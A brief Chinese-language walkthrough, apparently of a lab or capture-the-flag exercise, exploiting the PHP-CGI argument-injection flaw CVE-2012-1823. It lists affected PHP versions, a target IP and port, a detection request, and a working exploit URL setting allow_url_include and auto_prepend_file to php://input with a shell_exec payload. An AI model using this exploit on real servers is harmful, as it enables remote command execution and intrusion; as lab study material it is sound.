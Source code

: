 # phpcgi代码执行(CVE-2012-1823)
## 漏洞描述
CGI全称是“通用网关接口”(Common Gateway Interface)， 它可以让一个客户端，从网页浏览器向执行在Web服务器上的程序请求数据 这个漏洞简单来说，就是用户请求的querystring（querystring字面上的意思就是查询字符串，一般是对http请求所带的数据进行解析，这里也是只http请求中所带的数据）被作为了php-cgi的参数，最终导致了一系列结果

## 影响版本
php < 5.3.12 or php < 5.4.2

## 利用流程
1.访问地址：118.193.36.37:59452

![image]()
2.访问此地址确认存在漏洞
```
/index.php/?-s

```
![image]()
3.burpsuite进行抓包 访问地址为：

/index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input

传的参数为

<?php echo shell_exec("ls /tmp");?>

![image]()
getflag
